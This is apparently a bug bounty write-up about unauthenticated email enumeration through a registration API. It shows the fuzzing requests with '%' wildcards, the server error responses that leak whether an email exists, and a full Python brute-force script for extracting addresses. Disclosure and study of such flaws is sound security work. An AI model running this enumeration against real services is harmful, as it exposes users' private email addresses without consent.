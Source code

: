 ```yaml
---
layout: post
title: Unauthenticated Email Enumeration via API Fuzzing
date: 2024-02-21 15:08 +0530
categories: [bugbounty, writeup]
tags: [bugbounty,API,FUZZ] 
---
```



## Introduction

This blog post explores a recent finding I discovered in a bug bounty target. I stumbled upon a user enumeration issue that exposes email addresses without proper security measures. This vulnerability allows unauthorized users to enumerate all email addresses without authentication or rate limiting, potentially exposing sensitive information.

## Discovery

While testing the registration process, I encountered a POST request to a API endpoint used for email verification in my burp history tab. The endpoint was checking if the email address I entered during registration already existed or not.So i started 
fuzzing the endpoint `/registration` with fuzzing payloads using intruder, I stumbled upon a 500 error code response when I injected a `%` character into the `userEmail` json parameter. The server returned a 500 Internal Server Error along with a  message.

##### Request

```
POST /registration HTTP/2
Host: domain
Content-Type: application/json;charset=UTF-8

{"userEmail":"%"}

```

##### Response

```
There was an unexpected error (type=Internal Server Error, status=500).</div><div>Unable to find com.correnet.matcha.client.model.application.AccessGroup with id 7052; nested exception is javax.persistence.EntityNotFoundException: Unable to find com.correnet.matcha.client.model.application.AccessGroup with id 7052.

```
By observing this error message my assumption was the post request  sent to the registration endpoint with the `userEmail` parameter set to `%`. This input triggers a SQL query in the backend to select all records from the users table where the email column matches any value containing the `% ` character. The error message returned from the server indicates that there are 7052 entries in the system, giving insight into the number of user accounts present.Something like,

```sql
SELECT * FROM users WHERE email LIKE "%"
```
Further testing this endpoint i figured out the true and false case for the email address existence.

##### False Response Case:
```

HTTP Request Body: {"userEmail":"adamcorta%"}
HTTP Response: "Could not find resource: ApplicationUser identified by adamcorta%"

```
##### True Response Case:
```

HTTP Request: {"userEmail":"adamcorte%"}

HTTP Response: "There was an unexpected error (type=Internal Server Error, status=500).</div><div>Unable to find com.correnet.matcha.client.model.application.AccessGroup with id"

or

HTTP Response: "Anonymous user (not logged in) not authorized for operation: [connect application user to Platform user]"


```


## Exploit

And based on above error messages, I( ChatGPT of course! ) made a wacky Python script to automate the email enumeration:

```python
import requests

def brute_force_attack():
  
    charset = 'abcdefghijklmnopqrstuvwxyz@._'
    initial_string = ''

    last_valid_username = None  
    
    consecutive_errors = 0  
    max_consecutive_errors = 70  
    for initial_char in charset:
        initial_string = initial_char
        while True:
            for char in charset:
                
                payload = initial_string + char + '%'
                response = send_request(payload)

                
                if "500" in response:
                    initial_string += char
                    print(initial_string)
                    break
                elif "403" in response:
                    last_valid_username = payload  
                    print(f"username: {last_valid_username}")
                    initial_string += char
                    consecutive_errors = 0
                    break
                else:
                    
                    consecutive_errors = 0
            else:
                
                consecutive_errors += 1
                if consecutive_errors >= max_consecutive_errors:
                    if last_valid_username is not None:
                        print(f"Last valid username: {last_valid_username}")
                    else:
                        print("No valid username found.")
                    return initial_string
                break  

    else:
        initial_string += charset[0]
    return initial_string



def send_request(payload):
    
    endpoint_url = '{domain}}'  
    url = f"{endpoint_url}/registration"
    headers = {'Content-Type': 'application/json;charset=UTF-8'}
    data = {"userEmail": payload}

    try:
        response = requests.post(url, json=data, headers=headers)
        response.raise_for_status()  
        return response.text
    except requests.exceptions.RequestException as e:
        return str(e)


result = brute_force_attack()
print("The correct username is:", result)
```
In response to this discovery, the program triaged and fixed the vulnerability by implementing input validation and captcha protection to the registration page.